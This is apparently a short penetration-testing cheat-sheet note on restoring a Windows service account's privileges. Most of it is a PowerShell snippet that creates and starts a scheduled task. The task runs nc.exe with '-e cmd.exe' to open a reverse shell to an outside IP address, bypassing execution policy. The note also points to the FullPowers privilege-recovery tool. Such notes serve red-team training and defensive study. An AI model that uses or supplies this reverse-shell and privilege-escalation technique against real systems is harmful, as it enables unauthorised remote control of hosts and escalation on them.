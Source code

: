 # service account privileges

## restore
permissions can be recovered by creating a scheduled task

### using scheduled task with powershell
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\windows\tasks\nc.exe 192.168.69.69 443 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
```

### using FullPowers tool
https://github.com/itm4n/FullPowers
